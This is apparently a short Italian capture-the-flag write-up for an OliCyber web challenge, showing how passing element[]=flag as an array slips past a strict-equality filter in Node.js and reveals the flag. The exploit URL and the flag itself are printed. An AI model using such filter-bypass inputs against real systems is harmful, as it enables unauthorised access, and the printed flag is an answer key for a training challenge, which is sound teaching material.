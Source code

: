 > Impossibile accedere alla flag, davvero, impossibile fare altrimenti.

Passando "flag", riceviamo un "you wish". Dal file index.js dato nella challenge, ci concentriamo sulla gestione delle POST:

```javascript
const element = req.query.element;
var content = "";
if (element === "flag") {
  content = "you wish";
} else {
  content = data[element] || "Element not found";
}
```

Possiamo passare element[]=flag, così il confronto con triplo uguale darà false ma quando andremo ad usare element come indice dell'array questo verrà convertito nella stringa flag, quindi: `http://easy-access.challs.olicyber.it/element?element[]=flag`:

```
Element: flag
Content: flag{¿who_does_not_love_easy_access?}
```

**flag{¿who_does_not_love_easy_access?}**